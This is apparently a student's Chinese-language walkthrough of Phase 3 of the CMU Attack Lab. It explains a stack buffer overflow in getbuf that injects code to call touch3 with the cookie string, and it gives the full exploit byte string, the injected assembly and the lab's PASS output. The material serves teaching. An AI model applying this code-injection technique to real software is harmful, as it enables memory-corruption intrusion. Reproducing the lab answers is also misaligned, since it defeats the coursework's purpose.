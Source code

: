 # Phase3

- 目标：通过 getbuf 的漏洞，输入一段字节，执行 touch3，并将 cookie 的内容以字符串的形式作为第一个参数传递
  ```c
  void touch3(char *sval);
  ```
- 攻击手段：使用 code injection 方式进行攻击，传递一个字符串作为参数。


难点在于 touch3 调用了一个 hexmatch 方法，并且 hexmatch 会覆盖 getbuf 之前的栈位置的内容。
所以我们不能向之前那样，简单的把输入的内容放在 getbuf 栈位置，需要找一个 hex2match 操作不到的地方。


由于栈低地址方向生长，我们把需要注入的内容放在 getbuf 栈的高地址方向，就不用担心被覆盖了。

```c
// call stack
test  -> getbuf // ret
      -> touch3 -> hex2match
```

> 当 getbuf ret 时，其申请的栈就被释放了。当进入 touch3 函数时，会重新申请栈空间（如果有必要），调用 hex2match 会继续申请。
> 我们看到，touch3 和 hex2match 的栈地址和之前 getbuf 的可能存在重叠。



## 解题过程

这里和之前一样，需要写入注入代码，大体步骤如下

1. 覆盖 getbuf ret 原来返回的指令地址地方为我们注入的代码
2. 注入代码完成以下功能
   1. 将 touch3 函数地址压栈 `disas touch3` 可查
   2. 将 cookie 的 value 以 ascii 形式写入到一个特定的地址 addr，并且把这个 addr 传入 rdi
   ```s
   pushq $0x4018fa # push touch3 funciton addr
   mov $0x5561dc98, %rdi # 0x5561dca0 - 8
   ret
   ```
3. cookie 内容转 ascii，可通过 man ascii 看完整的 ascii 表。就是输入 char 类型的 `5` `9` `b` `9` `9` `7` `f` `a`
   ```
   # 0x59b997fa
   ```


exploit3.txt

```
68 fa 18 40 00 48 c7 c7 /* <== <ADDR 0x5561dc78> */
a8 dc 61 55 c3 ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff /* padding 0x28 (40) bytes */
78 dc 61 55 00 00 00 00 /* <== <ADDR 0x5561dca0> getbuf 执行 ret 时，从这个地址取指令，即：我们注入的代码地址 */
35 39 62 39 39 37 66 61 /* <== <ADDR 0x5561dca8> 显示 cookie对应的 ascii 0x 5 9 b 9 9 7 f a */
```


## 验证

```shell
cat ./exploit3.txt | ./hex2raw | ./ctarget -q

Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:68 FA 18 40 00 48 C7 C7 A8 DC 61 55 C3 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
```
